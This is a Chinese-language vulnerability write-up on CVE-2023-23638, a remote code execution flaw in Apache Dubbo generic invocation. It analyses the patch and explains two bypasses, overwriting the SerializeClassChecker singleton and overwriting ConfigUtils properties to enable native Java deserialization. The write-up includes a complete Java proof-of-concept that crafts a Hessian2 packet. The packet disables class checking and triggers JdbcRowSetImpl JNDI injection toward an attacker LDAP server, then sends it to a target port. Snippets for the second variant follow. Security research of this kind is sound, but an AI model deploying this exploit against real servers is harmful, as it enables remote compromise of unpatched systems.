- [CVE-2023-23638 Apache Dubbo 远程代码执行漏洞](#cve-2023-23638-apache-dubbo-远程代码执行漏洞)
  - [影响范围](#影响范围)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [补丁分析](#补丁分析)
    - [volatile SerializeClassChecker INSTANCE](#volatile-serializeclasschecker-instance)
      - [覆盖SerializeClassChecker](#覆盖serializeclasschecker)
      - [漏洞复现](#漏洞复现)
    - [JavaNative 利用](#javanative-利用)
      - [CompositeConfiguration](#compositeconfiguration)
      - [PropertiesConfiguration](#propertiesconfiguration)
      - [漏洞复现](#漏洞复现-1)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-23638 Apache Dubbo 远程代码执行漏洞
## 影响范围
```
2.7.0~2.7.21
3.0.0~3.0.13
3.1.0~3.1.5
```
## 环境搭建
```java
package com.demo.api;

public interface userInterface {
    String say(String mes);
}

package com.demo.apiImpl;

import com.demo.api.userInterface;

public class userServer implements userInterface {
    @Override
    public String say(String mes) {
        return mes;
    }
}
```
## 原理分析
### 补丁分析
在通告中说是一条因为泛化调用时反序列化的新Gadgets,关于泛化调用导致的RCE可以参考CVE-2021-30179,但在分析2.7.22的补丁时发现内置的黑白名单并没有变化,从commit中可以看到修改记录是`Add serializable check for pojo`.  
  
从这可以看到漏洞触发应该是在PojoUtils这个泛化调用的分支中,查看PojoUtils类的修改,发现在Map类型的pojo处理流程中增加了对class.forName之后的Type是否是可序列化类的检查.
   
  
而在pojiUtil处理Map类型的pojo时最后可以看到这个这个type不是接口,Map,枚举类型时进入else分支,会有一个实例化该type对象并调用其属性的setter方法的过程,其中如果有setter方法就调用其setter方法,没有的话则会通过Field设置该属性.  
  
那么这里的触发原理则和FastJson的原理是一致的,可以考虑使用`JdbcRowSetImpl`来JNDI注入.  
但是这个type在使用classForname获取时classname首先会经过`SerializeClassChecker.getInstance().validateClass((String) className);`进行检查,其中的黑名单已经封禁了这些利用类,而从补丁来看,这个漏洞并不是出现了新的利用类,而是序列化了一个不在黑名单中且没有实现序列化接口的类造成的漏洞.
### volatile SerializeClassChecker INSTANCE
回头来看这个SerializeClassChecker类,在每次使用SerializeClassChecker检查类时都会调用其getInstance()获取一个实例对象然后调用validateClass方法来检查类名是否合法,而其`getInstance()`方法如下
  
可以看到当`Instance`不存在时会新建一个`SerializeClassChecker`对象,如下存在则直接返回.  
而这个Instance的声明中有一个关键字`volatile`,`volatile`关键字用于保证在内存中该变量对所有线程都共享可见,也就是说这个`Instance`是一个单例模式,所有线程的`SerializeClassChecker`实例都共享同一个`Instance`,对`Instance`的修改会立刻同步给所有其它线程.
  
#### 覆盖SerializeClassChecker
现在就有一种思路則是自己创建一个`SerializeClassChecker`,然后修改其`Instance`来覆盖原有的`SerializeClassChecker Instance`,根据`validateClass`的处理流程.  

可以考虑直接修改该`SerializeClassChecker Instance`的`OPEN_CHECK_CLASS`为false来关闭检查,或者在白名单中添加恶意类,利用Field机制会自动给`SerializeClassChecker`的这些属性赋值.
#### 漏洞复现 
构造POC需要注意hessian2在序列化时会检查类是否实现了序列化接口,可以通过`System.setProperty("dubbo.hessian.allowNonSerializable","true");`来关闭.

```java
package exp;

import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;
import org.apache.dubbo.common.utils.SerializeClassChecker;
import sun.misc.Unsafe;


import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.net.Socket;
import java.util.*;

public class CVE_2023_23638 {
    private static String jndiurl = "ldap://192.168.91.1:1389/g3nj0p";
    private static String ip = "192.168.1.115";
    private static int port =20880;
    private static String inter = "com.demo.api.userInterface";
    private static String method = "say";
    private static Object params = new String[] {"java.lang.String"};
    public static void main(String[] args) throws IOException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);
        System.setProperty("dubbo.hessian.allowNonSerializable","true");
        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        // set body
        out.writeUTF("2.7.8");
        //todo 此处填写Dubbo提供的服务名
        out.writeUTF(inter);
        out.writeUTF("");
        out.writeUTF("$invoke");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        //todo 此处填写Dubbo提供的服务的方法
        out.writeUTF(method);
        out.writeObject(params);
        Constructor<Unsafe> constructor = Unsafe.class.getDeclaredConstructor();
        constructor.setAccessible(true);
        Unsafe unsafe = constructor.newInstance();
        SerializeClassChecker serializeClassChecker = (SerializeClassChecker)
                unsafe.allocateInstance(SerializeClassChecker.class);
        Field f =
                SerializeClassChecker.class.getDeclaredField("OPEN_CHECK_CLASS");
        f.setAccessible(true);
        f.set(serializeClassChecker,false);
        Map<Object,Object> map1 = new HashMap<Object, Object>();
        map1.put("class","org.apache.dubbo.common.utils.SerializeClassChecker");
        map1.put("INSTANCE",serializeClassChecker);
        Map<Object,Object> map2 = new LinkedHashMap<Object, Object>();
        map2.put("class","com.sun.rowset.JdbcRowSetImpl");
        map2.put("dataSourceName",jndiurl);
        map2.put("autoCommit",true);
        List list = new LinkedList();
        list.add(map1);
        list.add(map2);
        out.writeObject(new Object[]{list});
        HashMap<String,String> map = new HashMap();
        map.put("generic", "true");
        out.writeObject(map);
        out.flushBuffer();
        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());
        byte[] bytes = byteArrayOutputStream.toByteArray();
        //todo 此处填写Dubbo服务地址及端口
        Socket socket = new Socket(ip, port);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
获取到SerializeClassChecker class并实例化该对象.
  
基于Filed机制set相关属性,在poc中选择的是关闭检查,即设置`OPEN_CHECK_CLASS`为Flase.
  
当反序列化第二个map时,此时的`Instance`已经是我们修改过的`SerializeClassChecker`.  

检查时会直接返回  
    
然后就可以通过setter方法来触发jdbcRowSet利用类了.  
  
  
### JavaNative 利用
看到了这篇文章(https://xz.aliyun.com/t/12333) 发现还有另一种利用方式,当泛化调用传入的generic为`nativejava`时使用的是jdk原生的反序列化,但是ApacheDubbo配置中对nativejava是否开启有一个开关,且默认是false.  
  
#### CompositeConfiguration
通过` Configuration configuration = ApplicationModel.getEnvironment().getConfiguration();`获取到的是一个`CompositeConfiguration`复合配置对象,其中有一个List维护了所有的Configuration.  

在获取是否开启nativejava开关时使用的`getBoolean`方法来自于父类`Configuration`,而最后具体调用根据key获取value的方法还是子类实现的`getInternalProperty`接口方法,如果没有获取到value的话就会返回传入的默认值. 

在`CompositeConfiguration`的`getInternalProperty`方法如下.  
  
可以看到就是遍历所有`Configuration`查询该key对应的value.  

而默认情况下一共有五种`Configuration`,且全都为空值,也就是在不设置的情况下在获取nativejava开关配置时的返回值就是传入的默认值false.
  
#### PropertiesConfiguration
可以看到五种`Configuration`中有一个为`PropertiesConfiguration`,而`PropertiesConfiguration`的构造方法如下.  
  
其默认的`Properties`来自`ConfigUtils.getProperties()`方法.  
  
而`PROPERTIES`的声明如下,同样也是使用`volatile`关键字修饰,也是单例模式.
  
而在`ConfigUtils`中PROPERTIES也有对应的setter方法.  
  
那么我们就可以利用PojoUtil中自动setter方法的机制来修改`CompositeConfiguration`中的PropertiesConfiguration,改成一个含有`dubbo.security.serialize.generic.native-java-enable`属性为ture的`PROPERTIES`,那么就可以绕过这个安全配置直接使用jdk原生的序列化了.  
#### 漏洞复现
先发送generic为`raw.return`或者`true`触发pojoUtil类的自动setter方法设置我们自定义的`PROPERTIES`.  
核心代码如下:  
```java
        HashMap<String,String> map = new HashMap();
        Properties properties = new Properties();
        properties.put("dubbo.security.serialize.generic.native-java-enable","true");
        Map<Object,Object> map1 = new HashMap<Object, Object>();
        map1.put("class","org.apache.dubbo.common.utils.ConfigUtils");
        map1.put("properties",properties);
        out.writeObject(new Object[]{map1});
        map.put("generic", "raw.return");
        Map hp = new HashMap();
```  
  
可以看到调用了`setProperties`方法`PROPERTIES`对象被我们的properties覆盖.  
再发送一个nativejava的泛化调用,触发readObject.  
核心代码如下: 
```java
        Map hp = new HashMap();//恶意类
        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream1);
        objectOutputStream.writeObject(hp);
        final byte[] b = byteArrayOutputStream1.toByteArray();
        out.writeObject(new Object[]{b});
        map.put("generic", "nativejava");
```  
可以看到`CommonConstants.ENABLE_NATIVE_JAVA_GENERIC_SERIALIZE`返回为true,进入readObject().  
  
  
## 补丁
对type添加了是否实现了序列化接口的检查,也就是禁止了`SerializeClassChecker`和`ConfigUtils`实例的创建.
## 参考
https://github.com/X1r0z/CVE-2023-23638  
https://xz.aliyun.com/t/12333#toc-8